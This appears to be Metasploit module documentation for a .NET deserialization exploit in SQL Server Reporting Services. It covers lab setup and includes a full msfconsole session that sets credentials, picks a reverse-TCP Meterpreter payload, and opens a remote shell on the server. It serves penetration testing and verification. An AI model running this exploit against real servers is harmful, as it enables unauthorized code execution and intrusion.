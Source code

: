 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the SQL Server
Reporting Services web application. The vulnerability exists within the a class
that will load serialized data submitted in a POST request. When processed this
data can lead to code execution within the context of the application which by
default is a service account.

An account is necessary in order to leverage this vulnerability. The request is
submitted using NTLM basic authentication. This account must be assigned at
least the "Browser" role on the site. This is the lowest privilege available and
simply allows the user to view folders, reports and subscribe to reports. To
authenticate as a domain user, set the `DOMAIN` option.

Setting up a vulnerable environment for testing is best done by using a SQL
Server 2016 installation ISO which includes an offline installer for SSRS. Later
version of SQL Server installation ISOs link to an online installer which will
install the patched version automatically. After the server has been installed,
individual accounts can have privileges added by selecting "Manage Folder" and
adding them from this dashboard. **Do not use privileges dashboard available
from "Site Settings" to add the necessary privileges.**

## Verification Steps
  Example steps in this format (is also in the PR):

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/ssrs_navcorrector_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

### Version and OS

  For example:

    msf5 > use exploit/windows/http/ssrs_navcorrector_viewstate 
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set RHOSTS 192.168.159.141
    RHOSTS => 192.168.159.141
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set USERNAME jdoe
    USERNAME => jdoe
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set DOMAIN msflab.local
    DOMAIN => msflab.local
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set LHOST 192.168.159.128 
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > check
    [*] 192.168.159.141:80 - The service is running, but could not be validated.
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -  24.99% done (2999/12002 bytes)
    [*] Command Stager progress -  49.98% done (5998/12002 bytes)
    [*] Command Stager progress -  74.96% done (8997/12002 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.141
    [*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.141:50376) at 2020-03-06 16:19:24 -0500
    [*] Command Stager progress -  99.83% done (11982/12002 bytes)
    [*] Command Stager progress - 100.00% done (12002/12002 bytes)
    
    meterpreter > getuid
    Server username: NT Service\ReportServer
    meterpreter > sysinfo
    Computer        : SERVER2012
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 10
    Meterpreter     : x64/windows
    meterpreter >

